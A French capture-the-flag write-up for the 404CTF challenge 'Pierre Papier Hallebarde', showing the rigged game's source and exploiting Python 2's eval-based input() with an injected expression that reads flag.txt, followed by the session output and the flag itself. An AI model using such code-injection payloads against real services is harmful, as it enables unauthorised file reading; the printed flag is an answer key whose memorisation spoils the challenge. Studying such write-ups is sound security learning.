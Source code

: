 ## MISC / Pierre Papier Hallebarde

<p align="center">
  <img src="img/consignes.png" />
</p>


### Look around

Le serveur nous propose une version revisitée de pierre / feuille / ciseaux ... Et un peu pipée en effet.

```python
if choix_utilisateur == 1:
  choix_ordi = 2
elif choix_utilisateur == 2:
  choix_ordi = 3
elif choix_utilisateur == 3:
  choix_ordi = 1
else:
  print("Choix invalide. Vous avez perdu")
  exit(1)
  ```

Le choix de l'ordinateur est déterminé par avance pour que nous perdions ...

Toutefois, un test est bien fait entre les choix des deux joueurs :

```python
def decision(joueur1, joueur2):

	if joueur1 == joueur2:
		return 2
	if joueur1 == 1 and joueur2 == 2:
		return 2
	if joueur1 == 1 and joueur2 == 3:
		return 1
	if joueur1 == 2 and joueur2 == 1:
		return 1
	if joueur1 == 2 and joueur2 == 3:
		return 2
	if joueur1 == 3 and joueur2 == 1:
		return 2
	if joueur1 == 3 and joueur2 == 2:
		return 1
	return 2
  ```


En regardant de plus près le Shebang : `#!/usr/bin/python2.7 -u`

Le `-u` est pour unbuffered les output, et surtout la version de python est aujourd'hui désuète ...

### Exploit

En python2, `input()` équivaut à `eval(raw_input())` et il est donc possible de passer (et faire évaluer, une variable, une fonction, ou du code ...)

On peut alors lui faire exécuter :

`  __import__('sys').stdout.write(open("flag.txt").readline())
`


```bash
  Bienvenue sur pierre-papier-Hallebarde !
  La pierre bat la Hallebarde, le papier bat la pierre et la Hallebarde bat le papier
  Pour jouer entrez un chiffre entre 1 et 3 :
  1 : pierre
  2 : papier
  3 : Hallebarde
  Choix ?
  >   __import__('sys').stdout.write(open("flag.txt").readline())
  404CTF{cH0iX_nUm3r0_4_v1c701r3}
```
